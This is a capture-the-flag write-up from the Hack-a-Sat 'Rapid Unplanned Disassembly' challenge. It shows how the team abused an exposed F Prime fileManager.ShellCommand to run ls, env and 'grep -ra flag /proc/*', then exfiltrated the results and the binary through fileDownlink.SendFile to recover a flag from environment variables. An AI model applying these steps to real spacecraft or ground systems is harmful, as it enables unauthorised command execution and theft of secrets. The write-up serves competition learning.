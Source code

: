 
# Grade F Prime Beef

### Rapid Unplanned Disassembly 

_88 points, 46 Solves_

Active ADDVulcan players:
<li> supersat
<li> dtechshield

## Challenge Description

Exploit the system, get the passcode, retrieve the flag.

## Ticket

Present this ticket when connecting to the challenge:

```
ticket{sierra457871juliet2:XXXXXXXXXXXXXXXXXXXXXXXX-XXXXXXXXXXXXXXXX}
```

Don't share your ticket with other teams.

## Connecting

Connect to the challenge on:

```
recent-puzzle.satellitesabove.me:5015
```

Using netcat, you might run:

```
nc recent-puzzle.satellitesabove.me 5015
```

## Solving

Your team's flag for this challenge will look something like:
flag{sierra457871juliet2:___a bunch of unguessable stuff___} 


## Write up by dtechshield

Based on the instructions presented we made a tcp connection to `recent-puzzle.satellitesabove.me` on port `5015` 

```
nc recent-puzzle.satellitesabove.me 5015
```

This presented us with the following output:

```
Ticket please:
ticket{sierra457871juliet2:XXXXXXXXXXXXXXXXXXXXXXXX_XXXXXXXXXXXXXXXX}
Starting spacecraft
Starting ground station
Challenge Web Page Starting at http://18.222.149.133:12388
CLI available at 18.222.149.133:12389
```

First we logged in went to the http server:  `http://18.222.149.133:7834/`

Took a look at the page source: 
![Alt text](images/00_fprime_id.PNG "a title")

Identified that the system was using NASA's F Prime - https://github.com/nasa/fprime

Command interface was somewhat familiar from previous hackasat events...

Quickly looking at the interface we noticed the `Commanding` tab - started examining the available commands...

![Commands of Interest](images/01_commands_of_interest_highlighted.PNG "commands of interest")


We noticed `fileManager.ShellCommand`

Assuming this was a Unix based system first issued a command to see what is in the current directory:

```
2021-06-27T05:18:31.854Z    0x25d    fileManager.ShellCommand    [ "ls", "test.log" ]
2021-06-27T05:18:57.059Z    0x1f5    fileDownlink.SendFile    [ "test.log", "test.log" ]
```

Looking at the test.log we saw that there was a `satellite.exe`

```
$ cat test.log 

satellite.exe

test.log
```


Downloaded the `satellite.exe` using the `fileDownlink.SendFile` command.


Loaded `satellite.exe` into Ghidra and began our analysis:

```
void FUN_0014f610(long param_1)

{
  char *__s;
  
  FUN_00150820();
  *(undefined4 *)(param_1 + 0x3b0) = 0;
  __s = getenv("SAT_FLAG");
  strlen(__s);
  std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::_M_replace
            (param_1 + 0x3b8U,0,*(char **)(param_1 + 0x3c0),(ulong)__s);
  std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::resize
            (param_1 + 0x3b8U,-0x60);
  setenv("SAT_FLAG","ThisIsNotTheFlagYouAreLookingFor",1);
  return;
}

```

Noticed the `SAT_FLAG` environment variable...

Ran echo $SAT_FLAG on the web interface

Downloading the file the team saw

```
 cat flag.txt 
ThisIsNotTheFlagYouAreLookingFor
```

supersat executed  the following commands:

```
2021-06-27T05:33:32.386Z    0x25d    fileManager.ShellCommand    [ "grep -ra flag /proc/*", "grep.log" ]
2021-06-27T05:33:42.489Z    0x1f5    fileDownlink.SendFile    [ "grep.log", "grep.log" ]
```


Contents of `grep.log`:

```
/proc/10/task/10/environ:SHELL=/bin/bashSAT_FLAG=flag{sierra457871juliet2:XXXXXXXXXXXXXXXXXXXXXXXX
_XXXXXXXXXXXXXXXX_XXXXXXXXXXXXXXXXXXXXXXXX_XXXXXXXXXXXXXXXX}
PWD=/home/space/fprimeLOGNAME=spaceHOME=/home/spaceFLAG=flag{sierra457871juliet2:XXXXXXXXXXXXXXXXXXXXXXXX
_XXXXXXXXXXXXXXXX_XXXXXXXXXXXXXXXXXXXXXXXX_XXXXXXXXXXXXXXXX}
USER=spaceSHLVL=0PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/gamesMAIL=/var/mail/spaceOLDPWD=/home/space_=./sa
tellite.exe
```


dtechshield executed the following set of commands:

2021-06-27 06:34:08,(2(0)-1624775648:279639),fileManager.ShellCommand,605,[ ' e n v ' ,   ' t e s t . l o g ' ]
2021-06-27 06:34:21,(2(0)-1624775661:360806),fileDownlink.SendFile,501,[ ' t e s t . l o g ' ,   ' t e s t . l o g ' ]

Contents of `test.log`:

```
MAIL=/var/mail/space
USER=space
SHLVL=0
HOME=/home/space
OLDPWD=/home/space
LOGNAME=space
_=./satellite.exe
PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
SAT_FLAG=ThisIsNotTheFlagYouAreLookingFor
SHELL=/bin/bash
PWD=/home/space/fprime
FLAG=flag{sierra457871juliet2:XXXXXXXXXXXXXXXXXXXXXXXX_XXXXXXXXXXXXXXXX_XXXXXXXXXXXXXXXXXXXXXXXX_XXXXXXXXXXXXXXXX}
```


The initial response received for `SAT_FLAG` environment variable almost send us on our way, but dumping the full set of environment variables the team captured the flag. 

